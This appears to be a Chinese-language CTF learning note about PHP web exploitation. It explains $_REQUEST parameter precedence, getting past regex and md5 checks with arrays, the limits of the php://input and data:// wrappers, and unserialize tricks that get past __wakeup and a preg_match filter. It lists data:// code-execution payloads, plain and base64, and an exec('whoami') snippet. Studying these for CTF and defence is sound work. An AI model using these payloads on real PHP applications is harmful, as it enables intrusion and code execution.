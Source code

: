    REQUEST变量可以使用POST和GET变量同时覆盖，即当POST和GET参数名字相同时，REQUEST只能接收到POST参数并处理，并不会处理同名GET参数。正则和MD5以及substr都可以通过数组来绕过，这里算NULL绕过了。
   file_get_contents可诸如的方法有data://和php://input两种，但是由于正则过滤的原因，导致POST值会被正则拦下，所以php://input无法使用，因为POST参数会被处理，所以只能使用data://协议。

   ![](F:\LearningMaterials\Record\记录\images\1.PNG)


### 序列化serialize

   ```php
$key = "D0g3!!!";
echo serialise($key);//序列化
echo unserialize('s:7:"D0g3!!!";');//反序列化 s:7:"D0g3!!!";
   ```

当成员属性数目大于实际数目时可绕过wakeup方法。

```php
class xctf{
	public $flag = '111';
	public function __wakeup(){
		exit('bad requests');
	}
......
```

#### 绕过wakeup

序列化后的值为`O:4:"xctf":1:{s:4:"flag";s:3:"111";}`，变为`O:4:"xctf":2:{s:4:"flag";s:3:"111";}`可绕过__wakeup方法。

#### 绕过preg_match

```php
if (preg_match('/[oc]:\d+:/i', $var)) { 
    die('stop hacking!'); 
} else {
    @unserialize($var); 
} 
//"O:4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}"  会被拦截
//"O:+4:"Demo":1:{s:10:"Demofile";s:8:"fl4g.php";}" 可以绕过preg_match
```

### 伪协议

#### php://input

php://input是用来接收post数据的。

#### data://

```
data://text/plain,<?php phpinfo()?>

data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

data:text/plain,<?php phpinfo()?>

data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

//执行cmd
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;
exec('whoami', $output, $retval);
```